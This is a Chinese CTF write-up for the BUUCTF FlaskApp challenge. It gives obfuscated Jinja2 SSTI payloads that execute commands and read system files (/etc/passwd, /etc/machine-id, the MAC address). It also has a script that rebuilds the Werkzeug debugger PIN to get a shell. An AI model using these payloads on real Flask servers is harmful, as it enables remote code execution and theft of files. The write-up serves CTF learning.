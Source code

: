# BUUCTF-[GYCTF2020]FlaskApp flask爆破pin

这道题不需要爆破也可以getshell

ssti都给你了

```handlebars
{{((lipsum.__globals__.__builtins__['__i''mport__']('so'[::-1])['p''open']("\x63\x61\x74\x20\x2f\x74\x68\x69\x73\x5f\x69\x73\x5f\x74\x68\x65\x5f\x66\x6c\x61\x67\x2e\x74\x78\x74")).read())}}
```

但是学习记录一下pin的获取

首先就是通过base加密后 当base64解密的时候 会造成ssfr

这里过滤了 * 所以使用 {{7+7}} 实现



<img src="https://i-blog.csdnimg.cn/blog_migrate/bf5bcc9f0b4151e0a75f4f87923205c7.png" alt="" style="max-height:219px; box-sizing:content-box;" />


然后我们开始看看源代码

可以发现HINT 下存在pin



<img src="https://i-blog.csdnimg.cn/blog_migrate/1239d1489a49b1e72726df53247b7ebf.png" alt="" style="max-height:110px; box-sizing:content-box;" />


所以是找pin

```cobol
pin码生成要六要素
1.username 在可以任意文件读的条件下读 /etc/passwd进行猜测
2.modname 默认flask.app
3.appname 默认Flask
4.moddir flask库下app.py的绝对路径,可以通过报错拿到,如传参的时候给个不存在的变量
5.uuidnode mac地址的十进制,任意文件读 /sys/class/net/eth0/address
6.machine_id 机器码 
```

这里我们开始

在解密随便输入内容



<img src="https://i-blog.csdnimg.cn/blog_migrate/0a8da32a1e0af53b739b6a56744f5fc1.png" alt="" style="max-height:859px; box-sizing:content-box;" />


报错了 然后我们可以看源代码

```less
@app.route('/decode',methods=['POST','GET'])
 
def decode():
 
    if request.values.get('text') :
 
        text = request.values.get("text")
 
        text_decode = base64.b64decode(text.encode())
 
        tmp = "结果 ： {0}".format(text_decode.decode())
 
        if waf(tmp) :
 
            flash("no no no !!")
 
            return redirect(url_for('decode'))
 
        res =  render_template_string(tmp)
 
        flash( res )
```

这里可以发现没啥内容 但是有waf

首先通过读取读取一下/etc/passwd

### 用户

```handlebars
 {% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('/etc/passwd','r').read() }}{% endif %}{% endfor %}
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/0ee9d63179a8e3de2837cfa2f81789ff.png" alt="" style="max-height:173px; box-sizing:content-box;" />


存在flaskweb 用户

### 绝对路径



<img src="https://i-blog.csdnimg.cn/blog_migrate/3fb3cdb3706591234286f79040cded2f.png" alt="" style="max-height:116px; box-sizing:content-box;" />


### 网卡

```cobol
/sys/class/net/eth0/address
 
 {% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('/sys/class/net/eth0/address','r').read() }}{% endif %}{% endfor %}
```

56:89:65:ca:65:4a

然后需要处理

```cobol
56:89:65:ca:65:4a
568965ca654a
 
然后变为十进制即可
95148118271306
```

### 机器码

 [https://mochu.blog.csdn.net/article/details/132741209?spm=1001.2101.3001.6650.4&utm_medium=distribute.pc_relevant.none-task-blog-2%7Edefault%7EYuanLiJiHua%7EPosition-4-132741209-blog-108400293.235%5Ev39%5Epc_relevant_anti_vip&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2%7Edefault%7EYuanLiJiHua%7EPosition-4-132741209-blog-108400293.235%5Ev39%5Epc_relevant_anti_vip&utm_relevant_index=3](https://mochu.blog.csdn.net/article/details/132741209?spm=1001.2101.3001.6650.4&utm_medium=distribute.pc_relevant.none-task-blog-2~default~YuanLiJiHua~Position-4-132741209-blog-108400293.235%5Ev39%5Epc_relevant_anti_vip&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2~default~YuanLiJiHua~Position-4-132741209-blog-108400293.235%5Ev39%5Epc_relevant_anti_vip&utm_relevant_index=3) 

```handlebars
{% for x in {}.__class__.__base__.__subclasses__() %}
	{% if "warning" in x.__name__ %}
		{{x.__init__.__globals__['__builtins__'].open('/etc/machine-id').read() }}
	{%endif%}
{%endfor%}

```

```cobol
1408f836b0ca514d796cbf8960e45fa1 
```



然后生成pin

```cobol
 import hashlib
 from itertools import chain
 probably_public_bits = [
     'flaskweb'# username
     'flask.app',# modname
     'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
     '/usr/local/lib/python3.7/site-packages/flask/app.py' # getattr(mod, '__file__', None),
 ]
 ​
 private_bits = [
     '95148118271306',# str(uuid.getnode()),  /sys/class/net/ens33/address
     '1408f836b0ca514d796cbf8960e45fa1'# get_machine_id(), /etc/machine-id
 ]
 ​
 h = hashlib.md5()
 for bit in chain(probably_public_bits, private_bits):
     if not bit:
         continue
     if isinstance(bit, str):
         bit = bit.encode('utf-8')
     h.update(bit)
 h.update(b'cookiesalt')
 ​
 cookie_name = '__wzd' + h.hexdigest()[:20]
 ​
 num = None
 if num is None:
     h.update(b'pinsalt')
     num = ('%09d' % int(h.hexdigest(), 16))[:9]
 ​
 rv =None
 if rv is None:
     for group_size in 5, 4, 3:
         if len(num) % group_size == 0:
             rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                           for x in range(0, len(num), group_size))
             break
     else:
         rv = num
 ​
 print(rv)
 ​
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/2d8d2c66e17bc19a785f6964f5e678ec.png" alt="" style="max-height:193px; box-sizing:content-box;" />


然后就可以实现交互shell

```lua
os.popen('ls').read()
 
os.popen('ls /').read()
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/bfe54fd9c309fc608b271e7f5c971428.png" alt="" style="max-height:163px; box-sizing:content-box;" />